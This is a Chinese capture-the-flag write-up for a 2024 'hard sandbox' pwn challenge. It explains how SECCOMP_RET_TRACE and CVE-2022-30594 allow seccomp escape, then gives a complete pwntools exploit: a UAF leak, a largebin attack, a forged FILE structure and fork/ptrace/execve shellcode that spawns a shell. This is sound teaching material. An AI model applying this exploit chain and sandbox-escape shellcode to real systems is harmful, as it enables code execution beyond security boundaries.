





# SECCOMP_RET_TRACE沙箱绕过-先知社区

> **来源**: https://xz.aliyun.com/news/17258  
> **文章ID**: 17258

---

CVE-2022-30594是一个沙箱的漏洞，最近复现题目刚好接触到了相关知识，选择记录下来，便于后续学习，例题使用的是羊城杯2024年的hard sandbox

## **题目情况**

简单看一下题目情况，

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:
        add_note();
        break;
      case 2:
        delete_note();
        break;
      case 3:
        edit_note();
        break;
      case 4:
        show_note();
        break;
      case 5:
        exit(0);
      default:
        puts("Wrong choice!");
        break;
    }
  }
}
```







然后有一个沙箱



### 漏洞

基本就是一个纯板子题目，有一个uaf，重点其实在于沙箱。

沙箱把open和opanat都给ban了，当时做的时候基本想的就是openat2，但是圈圈说打不通，因为远程内核版本是5.4，5.6才有openat2

但是注意到这里并不是kill（事实上比赛的时候确实没看到，看到估计也不一定能写出来），这个trace和kill是完全不一样的，这个题目的重点也就是trace，我会尽量说的简单一些

### 分析

我们首先解释一下kill和track的区别，他们都是seccomp过滤器（也就是沙箱）的返回动作，但是触发完成之后的情况完全不同

当SECCOMP\_RET\_TRACE触发时，内核会通知ptrace跟踪器。这时候跟踪器可以干预系统调用的执行，比如修改参数或返回值。而SECCOMP\_RET\_KILL则是直接终止进程，不给任何机会。

而源代码里面给出的定义是这样的（[seccomp(2) - Linux manual page (man7.org)](https://man7.org/linux/man-pages/man2/seccomp.2.html)）

```
SECCOMP_RET_TRACE
  When returned, this value will cause the kernel to attempt
  to notify a ptrace(2)-based tracer prior to executing the
  system call.  If there is no tracer present, the system
  call is not executed and returns a failure status with
  errno set to ENOSYS.
  A tracer will be notified if it requests
  PTRACE_O_TRACESECCOMP using ptrace(PTRACE_SETOPTIONS).
  The tracer will be notified of a PTRACE_EVENT_SECCOMP and
  the SECCOMP_RET_DATA portion of the filter's return value
  will be available to the tracer via PTRACE_GETEVENTMSG.
  The tracer can skip the system call by changing the system
  call number to -1.  Alternatively, the tracer can change
  the system call requested by changing the system call to a
  valid system call number.  If the tracer asks to skip the
  system call, then the system call will appear to return
  the value that the tracer puts in the return value
  register.
  Before Linux 4.8, the seccomp check will not be run again
  after the tracer is notified.  (This means that, on older
  kernels, seccomp-based sandboxes must not allow use of
  ptrace(2)—even of other sandboxed processes—without
  extreme care; ptracers can use this mechanism to escape
  from the seccomp sandbox.)
  Note that a tracer process will not be notified if another
  filter returns an action value with a precedence greater
  than SECCOMP_RET_TRACE.
```

核心逻辑在于，当 seccomp 过滤器返回 SECCOMP\_RET\_TRACE 时，内核会在目标进程执行某个系统调用前，尝试通知一个通过 ptrace(2) 附加的调试器（tracer）。若此时没有调试器在监控该进程，系统调用会被直接阻断，返回错误状态 ENOSYS（表示“功能未实现”）。

调试器需通过 ptrace(PTRACE\_SETOPTIONS) 设置 PTRACE\_O\_TRACESECCOMP 选项，才能接收到此类事件。当事件触发时，内核会向调试器发送 PTRACE\_EVENT\_SECCOMP 信号，并通过 PTRACE\_GETEVENTMSG 传递 seccomp 过滤器返回值中的 SECCOMP\_RET\_DATA 字段数据。

调试器在收到通知后，可以干预系统调用的执行：

1. **跳过系统调用**：将系统调用号改为 -1，此时内核不会执行原系统调用，而是直接使用调试器设置的返回值作为结果。
2. **篡改系统调用**：修改系统调用号为其他有效值（如将危险的 execve 改为无害的 getpid），内核将执行修改后的调用。
3. **伪造返回值**：即使跳过系统调用，调试器也可通过寄存器注入任意返回值，欺骗被监控进程（tracee）。

在 **Linux 4.8 之前**的内核中，一旦调试器处理了 SECCOMP\_RET\_TRACE 事件，内核不会重新执行 seccomp 过滤器检查。这意味着：

* **沙箱逃逸风险**：攻击者若能在被 seccomp 限制的进程中附加调试器（如通过 ptrace），可篡改系统调用绕过原有过滤规则。
* **防御要求**：旧内核上的 seccomp 沙箱必须严格禁止 ptrace 调用，否则攻击者可利用调试器完全突破限制。

我知道这样一段基本上没人愿意看，确实有点难为人，举个例子：

假设你是一个员工（程序），每次要执行某个操作（系统调用）前，必须向保安（seccomp 沙箱）申请许可。保安有两种处理方式：

1. **直接拒绝（****KILL****）**：保安说“不行！”并立刻赶走你。
2. **找上级确认**（TRACE）：保安说“我需要请示领导（调试器）”，此时：

* **如果没领导**：直接拒绝你（返回错误 ENOSYS）。
* **如果有领导**：打电话问领导怎么办。

* 领导可以让你**换一个操作**（比如你想打印文件，领导让你改成喝水）。
* 领导也可以**假装你完成了操作**（比如你想删文件，领导直接回复“删好了”，实际没删）。

* **旧系统漏洞（Linux <4.8）**：

保安（沙箱）只在第一次检查，之后完全听领导的。如果坏人冒充领导，就能让员工做任何事（比如换操作成“格式化硬盘”）。**例子**：你申请“拿一杯水”，坏人领导改成“拿保险柜密码”，保安不再检查，直接执行！

* **新系统修复（Linux ≥4.8）**：保安在领导修改操作后，**会再次检查**。如果领导让你做危险操作（比如“格式化硬盘”），保安依然会拒绝。

所以其实问题就来了，如果确定是4.8以上的内核，那么其实没办法改变

这题刚好就是5.4的，所以我们有别的操作

#### CVE-2022-30594

该漏洞存在于 **Linux 内核 5.17.2 之前的版本** 中，与 seccomp 安全机制的权限管理相关。攻击者可通过 PTRACE\_SEIZE 操作绕过对 PT\_SUSPEND\_SECCOMP 标志的设置限制，导致 seccomp 的沙箱保护失效，从而执行本应被禁止的系统调用。

在 PTRACE\_SEIZE（捕获进程控制权）的代码路径中，内核未正确校验调用者是否有权限设置 PT\_SUSPEND\_SECCOMP 标志。攻击者可利用此漏洞，**绕过** **seccomp** **对敏感系统调用的限制**，例如执行任意文件操作或提权。

```
// 1. 启动一个受 seccomp 限制的进程（沙箱进程）
pid_t target_pid = fork();
if (target_pid == 0) {
    // 子进程加载 seccomp 规则，禁止 execve 等系统调用
    load_seccomp_filter();
    while(1) pause();
}

// 2. 攻击者进程通过 ptrace 附加到目标进程
ptrace(PTRACE_SEIZE, target_pid, NULL, NULL);

// 3. 设置 PT_SUSPEND_SECCOMP 标志（绕过权限检查）
int options = PTRACE_O_SUSPEND_SECCOMP;
ptrace(PTRACE_SETOPTIONS, target_pid, NULL, options);

// 4. 恢复目标进程执行，此时 seccomp 过滤器已被暂停
ptrace(PTRACE_CONT, target_pid, NULL, NULL);

// 5. 通过注入代码或修改寄存器，执行被禁止的系统调用（如 execve）
```

* 想象你家的智能门锁（seccomp）本来可以防止小偷进入。
* 但这个门锁有一个后门：任何人用遥控器（ptrace）按下某个按钮（PT\_SUSPEND\_SECCOMP），就能让门锁失效。

## **exp编写**

### libc&&heap

最基本的libc和heap的泄露这里就不多赘述，原题是2.36的libc，但是因为方便，所以我调整成了ubuntu22.04自带的版本

```
from pwn import *

context(log_level="debug", arch="amd64", os="linux")
io = process("./pwn")
elf = ELF("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")


def dbg():
    gdb.attach(io)


def add(idx, size):
    io.recvuntil(b">")
    io.sendline(str(1))
    io.recvuntil(b"Index: ")
    io.sendline(str(idx))
    io.recvuntil(b"Size:")
    io.sendline(str(size))


def free(idx):
    io.recvuntil(b">")
    io.sendline(str(2))
    io.recvuntil(b"Index: ")
    io.sendline(str(idx))


def edit(idx, content):
    io.recvuntil(b">")
    io.sendline(str(3))
    io.recvuntil(b"Index: ")
    io.sendline(str(idx))
    io.recvuntil(b"Content:")
    io.sendline(content)


def show(idx):
    io.recvuntil(b">")
    io.sendline(str(4))
    io.recvuntil(b"Index: ")
    io.sendline(str(idx))


add(0, 0x518)
add(1, 0x500)
add(2, 0x528)
add(3, 0x500)
free(2)
free(0)
show(2)
libc.address = u64(io.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 0x21ACE0
info("libc base: " + hex(libc.address))
show(0)
heap_base = u64(io.recv(6).ljust(8, b"\x00")) & ~0xFFF
info("heap base: " + hex(heap_base))
```



### largebin attack

这里我们还是largebin attack去攻击io list all，但是我们不选择调用system或者其他的，而是选择调用mprotect函数去开辟空间，这样才能执行我们的shellcode

这里我们攻击之后要把堆块修改回去，这样不会影响到我们后面的操作

```
add(0, 0x518)
edit(2, p64(0) * 3 + p64(libc.sym["_IO_list_all"] - 0x20))
free(0)
add(0, 0x508)
edit(2, p64(libc.address + 0x203B20) * 2 + p64(heap_base + 0x290) * 2)
add(2, 0x428)
```



这样我们就把stderr结构体伪造在我们的堆块上面了

### 伪造stderr结构体

这里用的是house of obstack，其他的链子应该都是可以的

```
add(0, 0x518)
edit(2, p64(0) * 3 + p64(libc.sym["_IO_list_all"] - 0x20))
free(0)
add(0, 0x508)
edit(2, p64(libc.address + 0x203B20) * 2 + p64(heap_base + 0x290) * 2)
add(2, 0x428)

file_addr = heap_base + 0xCC0
payload_addr = file_addr + 0x10
frame_addr = file_addr + 0xE8
rop_addr = frame_addr + 0xF8
buf_addr = rop_addr + 0x60

fake_file = b""
fake_file += p64(0)  # _IO_read_end
fake_file += p64(0)  # _IO_read_base
fake_file += p64(0)  # _IO_write_base
fake_file += p64(1)  # _IO_write_ptr
fake_file += p64(0)  # _IO_write_end
fake_file += p64(0)  # _IO_buf_base;
fake_file += p64(0)  # _IO_buf_end
fake_file += p64(0) * 4  # from _IO_save_base to _markers
fake_file += p64(
    next(
        libc.search(
            asm("mov rdx, [rdi+0x8]; mov [rsp], rax; call qword ptr [rdx+0x20];"),
            executable=True,
        )
    )
)  # FILE chain ptr
fake_file += p32(2)  # _fileno for stderr is 2
fake_file += p32(0)  # _flags2, usually 0
fake_file += p64(frame_addr)  # _old_offset
fake_file += p16(1)  # _cur_column
fake_file += b"\x00"  # _vtable_offset
fake_file += b"
"  # _shortbuf[1]
fake_file += p32(0)  # padding
fake_file += p64(libc.sym["_IO_2_1_stdout_"] + 0x1EA0)  # _IO_stdfile_1_lock
fake_file += p64(0xFFFFFFFFFFFFFFFF)  # _offset
fake_file += p64(0)  # _codecvt
fake_file += p64(0)  # _IO_wide_data_1
fake_file += p64(0) * 3  # from _freeres_list to __pad5
fake_file += p32(0xFFFFFFFF)  # _mode
fake_file += b"\x00" * 19  # _unused2
fake_file = fake_file.ljust(0xD8 - 0x10, b"\x00")
fake_file += p64(libc.address+0x2173C0 + 0x20)  # libc.sym['_IO_obstack_jumps']
fake_file += p64(file_addr + 0x30)

frame = SigreturnFrame()
frame.rdi = heap_base
frame.rsi = 0x1000
frame.rdx = 7
frame.rsp = rop_addr
frame.rip = libc.sym["mprotect"]

frame = bytearray(bytes(frame))
frame[8 : 8 + 8] = p64(frame_addr)
frame[0x20 : 0x20 + 8] = p64(libc.sym["setcontext"] + 61)
frame = bytes(frame)
```

这条链子的细节就不多赘述，重点其实是我们的shellcode如何编写

### shellcode编写

[羊城杯 2024 pwn writeup (9anux.org)](https://9anux.org/2024/08/28/%E7%BE%8A%E5%9F%8E%E6%9D%AF%202024%20pwn%20writeup/index.html#sandbox-after-competition)

这里给出圈圈的博客作为讲解，引用他博客原文：

也就是说我们有办法对 seccomp 进行逃逸，其具体做法为：使用 fork 开一个子进程，子进程需要 ptrace(PTRACE\_TRACEME, 0, 0,0); 来允许自己被父进程追踪，父进程需使用 ptrace(PTRACE\_ATTACH, pid, 0, 0); 来追踪子进程。然后父进程在 wait() 阻塞等待子进程发起系统调用。一旦捕捉到，则子进程阻塞，父进程继续运行，此时需用 ptrace(PTRACE\_0\_SUSPEND\_SEECOMP, pid, 0, PTRACE\_0\_TRACESECCOMP); 将被 TRACE 系统的调用改为允许运行，然后 ptrace(PTRACE\_SCONT); 来恢复子进程的系统调用执行。由于我们不知道 flag 的路径和文件名是什么，所以直接使用 execve 来拿 shell

我们尝试一步一步编写shellcode

首先fork出一个进程

**1. 父进程和子进程的创建**

* **fork** **系统调用**：

* 使用 fork 创建一个子进程。
* 父进程和子进程会同时运行，但通过fork的返回值区分彼此：

* 父进程的返回值是子进程的 PID。
* 子进程的返回值是 0。

```
mov rax, 57             /* syscall number for fork */
syscall                 /* invoke fork() */
test rax, rax           /* check if return value is 0 (child) or positive (parent) */
js _exit                /* if fork failed, exit */
cmp rax, 0              /* are we the child process? */
je child_process        /* if yes, jump to child_process */
```

**2. 父进程追踪子进程**

* **ptrace(PTRACE\_ATTACH)**：

* 父进程通过 ptrace 附加到子进程，开始追踪子进程的行为。
* PTRACE\_ATTACH 是 ptrace 的一个选项，用于附加到目标进程。

```
mov rax, 101            /* syscall number for ptrace */
mov rdi, 0x10           /* PTRACE_ATTACH */
xor rdx, rdx            /* no options */
xor r10, r10            /* no data */
syscall                 /* invoke ptrace(PTRACE_ATTACH, child_pid, 0, 0) */
```

**wait4** **系统调用**：

* 父进程通过 wait4 等待子进程的状态变化（例如子进程发起系统调用）。
* 当子进程被 ptrace 追踪时，子进程的系统调用会被暂停，父进程可以捕获并修改子进程的行为。

```
mov rax, 61             /* syscall number for wait4 */
syscall                 /* invoke wait4() */
```

**3. 绕过** **seccomp** **限制**

* **ptrace(PTRACE\_SETOPTIONS)**：

* 父进程通过 ptrace 设置选项，允许追踪子进程的 seccomp 事件。
* PTRACE\_O\_TRACESECCOMP 是一个选项，用于追踪子进程的 seccomp 事件。

```
mov rdi, 0x4200         /* PTRACE_SETOPTIONS */
mov rsi, r8             /* rsi = child PID */
xor rdx, rdx            /* no options */
mov r10, 0x00000080     /* PTRACE_O_TRACESECCOMP */
mov rax, 101            /* syscall number for ptrace */
syscall                 /* invoke ptrace(PTRACE_SETOPTIONS, child_pid, 0, 0) */
```

**ptrace(PTRACE\_CONT)**：

* 父进程通过 ptrace 恢复子进程的执行。
* 子进程的系统调用会被允许执行，从而绕过 seccomp 的限制。

```
mov rdi, 0x7            /* PTRACE_CONT */
mov rsi, r8             /* rsi = child PID */
xor rdx, rdx            /* no options */
xor r10, r10            /* no data */
mov rax, 101            /* syscall number for ptrace */
syscall                 /* invoke ptrace(PTRACE_CONT, child_pid, 0, 0) */
```

**子进程执行** **/bin/sh**

* **execve** **系统调用**：

* 子进程通过 execve 执行 /bin/sh，获取一个 shell。
* /bin/sh 的路径被拆分为两部分（/bin/bas 和 h\x00），并通过 push 指令拼接到栈上。

```
mov rax, 0x{order2}     /* "/bin/sh" */
push rax
mov rax, 0x{order1}     /* "/bin/sh" */
push rax
mov rdi, rsp            /* rdi = pointer to "/bin/sh" */
mov rsi, 0              /* argv = NULL */
xor rdx, rdx            /* envp = NULL */
mov rax, 59             /* syscall number for execve */
syscall                 /* invoke execve("/bin/sh", NULL, NULL) */
```

**5. 退出逻辑**

* **exit** **系统调用**：

* 如果 fork 失败，程序会直接退出。

```
_exit:
  mov rax, 60             /* syscall number for exit */
  xor rdi, rdi            /* status 0 */
  syscall
```

### 效果

最后补全exp

```
order2 = b'h\x00'[::-1].hex()
order1 = b'/bin/bas'[::-1].hex()
shellcode = asm(f"""
_start:

    /* Step 1: fork a new process */
    mov rax, 57             /* syscall number for fork (on x86_64) */
    syscall                 /* invoke fork() */

    test rax, rax           /* check if return value is 0 (child) or positive (parent) */
    js _exit                /* if fork failed, exit */

    /* Step 2: If parent process, attach to child process */
    cmp rax, 0              /* are we the child process? */
    je child_process        /* if yes, jump to child_process */

parent_process:
    /* Store child PID */
    mov r8,rax

    mov rsi, r8            /* rdi = child PID */

    /* Attach to child process */
    mov rax, 101            /* syscall number for ptrace */
    mov rdi, 0x10           /* PTRACE_ATTACH */
    xor rdx, rdx            /* no options */
    xor r10, r10            /* no data */
    syscall                 /* invoke ptrace(PTRACE_ATTACH, child_pid, 0, 0) */

monitor_child:
    /* Wait for the child to stop */
    
    mov rdi, r8            /* rdi = child PID */
    mov rsi, rsp            /*  no status*/
    xor rdx, rdx            /* no options */
    xor r10, r10            /* no rusage */
    mov rax, 61             /* syscall number for wait4 */
    syscall                 /* invoke wait4() */

    /* Set ptrace options */
    mov rax, 110
    syscall    
    mov rdi, 0x4200         /* PTRACE_SETOPTIONS */
    mov rsi, r8            /* rsi = child PID */
    xor rdx, rdx            /* no options */
    mov r10, 0x00000080     /* PTRACE_O_TRACESECCOMP */
    mov rax, 101            /* syscall number for ptrace */
    syscall                 /* invoke ptrace(PTRACE_SETOPTIONS, child_pid, 0, 0) */

    /* Allow the child process to continue */
    mov rax, 110
    syscall
    
    mov rdi, 0x7            /* PTRACE_CONT */
    mov rsi, r8            /* rsi = child PID */
    xor rdx, rdx            /* no options */
    xor r10, r10            /* no data */
    mov rax, 101            /* syscall number for ptrace */
    syscall                 /* invoke ptrace(PTRACE_CONT, child_pid, 0, 0) */

    /* Loop to keep monitoring the child */
    jmp monitor_child

child_process:
    /* Child process code here */
    /* For example, we could execute a shell or perform other actions */
    /* To keep it simple, let's just execute `/bin/sh` */
                
    /* sleep(5) */
    /* push 0 */
    push 1
    dec byte ptr [rsp]
    /* push 5 */
    push 5
    /* nanosleep(requested_time='rsp', remaining=0) */
    mov rdi, rsp
    xor esi, esi /* 0 */
    /* call nanosleep() */
    push SYS_nanosleep /* 0x23 */
    pop rax
    syscall

    mov rax, 0x{order2}  /* "/bin/sh" */
    push rax
    mov rax, 0x{order1}  /* "/bin/sh" */
    push rax
    mov rdi, rsp    
    mov rsi, 0
    xor rdx, rdx
    mov rax, 59             /* syscall number for execve */
    syscall
    jmp child_process

_exit:
    /* Exit the process */
    mov rax, 60             /* syscall number for exit */
    xor rdi, rdi            /* status 0 */
    syscall
""")
payload = fake_file + frame+p64(rop_addr+8)+shellcode
edit(2, payload)
#gdb.attach(io, "b _obstack_newchunk
c")
io.recv()
io.sendline(str(5))
io.interactive()
```


